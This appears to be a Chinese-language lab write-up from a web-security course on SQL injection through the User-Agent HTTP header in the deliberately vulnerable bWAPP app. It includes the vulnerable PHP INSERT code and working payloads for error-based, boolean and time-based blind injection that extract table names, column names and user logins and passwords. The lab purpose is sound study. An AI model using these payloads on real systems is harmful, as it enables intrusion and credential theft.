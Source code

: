 针对HTTP请求头,如果不加以过滤或转义,直接与数据库交互的过程容易被利用进行SQL 注入攻击,即HTTP攻击

## 常见场景

访问时,Web Server会从HTTP Header中取出浏览器信息,IP地址,HOST信息等存储到数据库中

## 视频解题

使用burpsuite尝试修改User-Agent 为 123 发现在前端页面也变成 123 

随后继续修改为 123' 有报错

修改 111', '222') # 发现不仅User-Agent被修改, IP_Address 也被改变

此时尝试注入 111', (select database())); # 发现可以返回数据库名

尝试时间盲注 111', sleep(2)); # 可以看出返回时间延迟了大约两秒

## 进入容器查看
 预测形式为 insert into ... values(xxx, yyy)

docker exec -it xxx(容器ID) bash
```php
$ip_address = $_SERVER["REMOTE_ADDR"];
$user_agent = $_SERVER["HTTP_USER_AGENT"];

$sql = "INSERT INTO visitors (date, user_agent, ip_address) VALUES (now(), '" . sqli($user_agent) . "', '" . $ip_address . "')";
```
## 课后题

1 利用SQL盲注完成HTTP头注入

2 (提高)尝试用两种以上不同MySQL函数完成盲注练习

3 (进阶)修改user-agent 与 ip_address位置尝试注入

## 写作业 

#### 1 SQL注入

我们在课程中已经知道数据库名称为 bWAPP  注意每次只能返回一行,所以要 limit 1

1 information_schema.tables 为 数据库中表数据表信息
```
111', (select table_name from information_schema.tables where table_schema=database() limit 1 offset 0)); #
```
可以成功查询数据表,但是返回为blog,并不是我们所希望的内容.接下来通过修改 offset 偏移控制返回第几条;可以发现offset为3时返回数据表名为 users

2 查询user中包含几个字段

  information_schema.columns 很重要! 具体利用过程同上
```
111', (select column_name from information_schema.columns where table_name='users' limit 1 offset 0)); #
```
  利用上述指令即可查得id,继续利用偏移查询 id login password 分别位于偏移 0, 1, 2 处

3 查询具体敏感数据
```
111', (select id from users limit 1 offset 0)); #
```
  直接对users数据表的第一个id字段进行查询
  
  同理将id 更换为 login 与 password 即可查询得到id为1的用户全部信息,再更换offset重复上述操作即可完成SQL注入攻击

#### 2 两种以上不同函数完成

因为可以直执行整句逻辑,很自由,下面两种方法都可以帮助我们进行SQL注入

1 布尔注入

substring(version(), 1, 1) = 5    =5时返回1 !=5时返回 0 意味着我们还可以使用布尔进行SQL注入,需要编写简本
```
111', substring(database(),1,1)='b'); # 
```
返回1 一次类推遍历 (33,128) 可以依次找寻到数据库名字全称.在上一节时间盲注的练习中没少写... 同理


2 时间延迟注入

sleep(3) 与布尔型同理,但是可以应对没有回显情况.通过判断延时是否被执行从而推断出SQL条件是否正确.因为时间延迟注入中要前置条件为真,所以可以看作布尔注入升级版
```
111', substring(database(),1,1)='b' and sleep(2)); #
```
在布尔注入后直接加上and sleep(2)即可


#### 3 交换位置怎么办

首先修改代码
```php
$sql = "INSERT INTO visitors (date, ip_address, user_agent) VALUES (now(), '" . sqli($ip_address) . "', '" . $user_agent . "')";
```

测试111正常,后续指令失效,原因是交换位置后已经无法再继续向后直接拼接

课程的评论区大佬已经给出时间盲注的解决办法
```
111'+ (substring(database(),1,1)='b' and sleep(2)));#
```
写burpsuite脚本还不会QAQ练习会了再回来补
